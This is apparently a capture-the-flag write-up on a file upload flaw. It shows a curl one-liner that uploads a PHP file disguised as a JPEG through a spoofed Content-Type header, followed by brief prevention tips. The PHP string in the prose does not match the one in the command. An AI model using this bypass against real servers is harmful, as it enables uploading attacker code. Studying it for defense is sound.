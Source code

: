 # File Upload Issue

When you upload a file, there is a risk. A PHP file might be uploaded pretending to be an image. The attack involves making a PHP script (/tmp/bad.php) with this content <?php echo "This is a poor upload check..." ?>. To get past security, this file is uploaded using curl with the 'Content-Type' header set as 'image/jpeg'. The command for this is:
Here's the command that accomplishes this:
```bash
echo '<?php echo "The Gang à Rossa!" ?>' > /tmp/bad.php && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/bad.php;type=image/jpeg" "http://x.x.x.x/index.php?page=upload" | grep flag
```

## Prevention

Enhance security by not solely trusting 'Content-Type' headers, renaming files, restricting file types, and checking file sizes and permissions.